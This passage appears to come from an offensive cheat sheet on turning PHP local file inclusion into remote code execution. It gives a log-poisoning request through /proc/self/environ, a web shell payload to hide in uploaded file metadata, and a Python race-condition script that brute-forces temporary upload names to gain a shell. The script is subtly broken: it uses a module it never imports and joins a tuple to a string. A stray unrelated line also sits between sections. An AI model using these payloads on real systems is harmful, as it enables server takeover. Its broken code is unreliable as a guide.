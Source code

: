 ## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : <?php system($_GET['c']); ?> ).

```
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable, it is best to inject into the metadata for the pictures/doc/pdf

## LFI to RCE via upload (race)

Worlds Quietest Let’s Play”

  * Upload a file and trigger a self-inclusion.
  * Repeat 1 a shitload of time to:
  * increase our odds of winning the race
  * increase our guessing odds
  * Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
  * Enjoy our shell.

```
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```
